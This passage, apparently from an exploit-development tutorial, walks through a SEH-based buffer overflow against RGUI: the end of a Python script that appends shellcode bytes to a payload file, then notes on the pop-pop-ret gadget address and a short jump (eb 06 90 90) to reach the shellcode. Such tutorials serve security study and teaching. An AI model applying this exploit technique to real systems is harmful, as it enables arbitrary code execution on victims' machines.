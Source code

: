 ```python
buf += b"\x9b\xc4\x69\xc0\xe9\xc1\x36\x46\x01\xbb\x27\x23\x25"
buf += b"\x68\x47\x66\x46\xef\xdb\xea\xa7\x8a\x5b\x88\xb7"
payload += buf

f.write(payload)
f.close()
```
{% endcode %}

...and send it to RGUI. Observe the crash, continue running the program until the breakpoint at `0x637412c8` is hit and inspect the memory at `0141E768`, where our SEH record, that we've just overflowed, lives. This is where we will jump to after the `pop pop ret` instructions will complete at `0x637412c8`:

![Payload is organized in program&apos;s memory](../../../.gitbook/assets/image%20%281009%29.png)

From the above screenshot, we can derive the following key point - once we land on `0141E768` \(red zone\), which contains the 4 bytes representing our string `BOOM`, we need to jump over to our shellcode in the blue zone.

### Jumping Over to Shellcode

We need to replace the `BOOM` string in our exploit code \(which represents the address of the next SEH record\) with a simple relative short `jmp` instruction that jumps 6 bytes further into the code. The instuction can be encoded using the following bytes `eb 06`. Additionally, since the `jmp` instruction is only 2 bytes, we'd need to supplement it with 2 NOP bytes to ensure the exploit reliability. So, `BOOM` should be replaced with bytes `eb 06 90 90` like so:

